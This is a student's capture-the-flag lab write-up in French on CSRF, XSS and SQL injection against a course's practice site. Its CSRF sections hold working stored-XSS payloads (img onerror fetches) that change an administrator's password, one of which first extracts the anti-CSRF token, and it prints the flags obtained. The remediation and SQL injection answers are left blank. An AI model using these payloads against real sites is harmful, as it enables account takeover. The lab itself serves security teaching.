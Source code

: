 # Lab 1

## CSRF Simple

### 1. Quelle fonctionnalité du site, potentiellement vulnérable à une faille CSRF, pourriez-vous exploiter pour voler le compte administrateur ?


```javascript

fetch("http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn", {
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
  "body": "password=test",
  "method": "POST",
});
```


### 2. Proposez une requête qui vous permettra de prendre le contrôle du compte admin, si elle était exécutée par l’administrateur

   
### 3. Ecrivez une payload javascript qui exécute la requête.

```html

<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  })
  .then(response => {
    if (response.ok) {
      alert('Fetch request was successful!');
    } else {
      alert('Fetch request failed with status: ' + response.status);
    }
  })
  .catch(error => alert('Fetch error: ' + error));
">


```


### 4. Quelle fonctionnalité du site, potentiellement vulnérable à une faille Stored XSS, pourriez-vous exploiter pour faire exécuter votre payload

Exploitation de la validation d'input.

### Quel est le flag ? Comment avez-vous pu l'obtenir ?
Injection XSS dans le formulaire envoyé à l'administrateur.

```html

<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  })
  .then(response => {
    if (response.ok) {
      alert('Fetch request was successful!');
    } else {
      alert('Fetch request failed with status: ' + response.status);
    }
  })
  .catch(error => alert('Fetch error: ' + error));
">

```

```bash

Congratulation ! You flag is : 8YeeieGoK/aDoTwo

```
### Comment corrigeriez-vous la vulnérabilité ? 

## CSRF Avancée

### 1. Qu’est-ce qu’un jeton anti-CSRF, comment fonctionne-t-il ? 

### 2. Comment déterminer si le formulaire est protégé par un jeton anti-CSRF ? 

### 3. Le site est également vulnérable à une attaque XSS. Quel est le flag du challenge ? Décrivez l’attaque.

```html

<img src='invalid.jpg' onerror="
  fetch('/profile/nathan.rayburn_admin', { method: 'GET' })
    .then(response => response.text())
    .then(html => {
      // Parse the response HTML and extract the CSRF token
      const parser = new DOMParser();
      const doc = parser.parseFromString(html, 'text/html');
      const csrfToken = doc.querySelector('#_csrf').value;
      
      // Now use the token to execute the password change
      return fetch('/profile/nathan.rayburn_admin', {
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: `_csrf=${csrfToken}&password=test`,
        method: 'POST'
      });
    })
    .then(response => {
      if (response.ok) {
        alert('Password change request was successful!');
      } else {
        alert('Password change request failed with status: ' + response.status);
      }
    })
    .catch(error => alert('Fetch error: ' + error));
">
```

```bash

Congratulation ! You flag is : wMQf78jUXavuMdp1

```

### 4. Comment corrigeriez-vous la vulnérabilité ?

## Injection SQL

1. Quelle partie du service est vulnérable à une injection SQL ? 
   
2. Le serveur implémente une forme insuffisante de validation des entrées. Expliquer pourquoi c’est insuffisant. 
   
3. Quel est le flag ? Comment avez-vous procédé pour l’obtenir ? 
   
4. Quel est le DBMS utilisé ? Auriez-vous procédé différement si le DBMS avait été MySQL ou MariaDB ?